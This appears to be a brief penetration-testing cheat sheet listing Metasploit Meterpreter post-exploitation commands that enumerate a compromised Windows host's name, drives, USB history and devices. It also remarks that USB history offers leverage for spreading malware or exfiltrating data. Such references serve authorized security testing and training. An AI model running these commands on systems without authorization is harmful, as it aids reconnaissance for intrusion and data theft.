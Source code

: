 # Metasploit

Retrieve computer name.

```
meterpreter > irb
>> client.railgun.kernel32.GetComputerNameA(260,260)
```

Show mounted drives.

```
meterpreter > show_mount

meterpreter > run post/windows/gather/forensics/enum_drives [maxdrives=<number_of_drives>]
```

Check if there are external USB drives history activity to the workstation. This will provide leverage to insert malware to spread the infection or possibly to exfiltrate data.

```
meterpreter > run post/windows/gather/usb_history
```

Enumerate hardware devices

```
meterpreter > run post/windows/gather/enum_devices
```

---
## References

- [Rapid7: Metasploit Framework - Gather Enum Devices Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/enum_devices.md)

- [Malicious.link: Meterpreter show_mount](https://room362.com/posts/2015/meterpreter-show-mount/)
